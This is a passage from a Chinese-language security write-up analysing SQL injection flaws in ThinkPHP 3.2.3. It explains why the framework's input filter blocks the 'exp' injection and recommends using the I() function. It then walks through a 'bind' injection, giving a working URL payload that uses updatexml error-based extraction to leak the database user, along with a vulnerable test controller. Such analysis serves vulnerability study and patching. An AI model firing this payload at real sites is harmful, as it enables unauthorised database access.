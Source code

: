 
然后我们来说下为什么**不用**`I()`函数来获取参数，而使用原生超全局数组。在`I()`函数中，最后回调了一个`think_filter()`函数
```php
is_array($data) && array_walk_recursive($data, 'think_filter');
```
```php
function think_filter(&$value)
{
    // TODO 其他安全过滤

    // 过滤查询特殊字符
    if (preg_match('/^(NEQ|GT|EGT|LT|ELT|OR|XOR|LIKE|NOTLIKE|NOT BETWEEN|NOTBETWEEN|BETWEEN|NOTIN|NOT IN|IN)$/i', $value)) {
        $value .= ' ';
    }
}
```
可以看到过滤了EXP字符串，会在后面拼接上一个空格，那这样后面`parseWhereItem()`中就不满足条件抛出异常导致无法注入。
### 修复
使用`I()`函数代替超全局数组获取变量

## thinkphp 3.2.3 bind注入
上文中写到了exp注入，这篇讲bind注入
### payload
```
http://php.local/thinkphp3.2.3/index.php?id[0]=bind&id[1]=0 and updatexml(1,concat(0x7e,user(),0x7e),1)&password=1
```
这里需要注意`id[1]=0`原理在下面说
### 搭建环境
```php
public function index()
{
    $User = M("Users");
    $user['id'] = I('id');
    $data['password'] = I('password');
    $valu = $User->where($user)->save($data);
    var_dump($valu);
}
```
输入payload，为了讲解上文中`id[1]=0`的原理，我们输入payload
```
http://php.local/thinkphp3.2.3/index.php?id[0]=bind&id[1]=aa&password=1
```
报错
![image](https://y4er.com/img/uploads/20191127226427.jpg)

打断点在save()函数
![image](https://y4er.com/img/uploads/20191127229947.jpg)
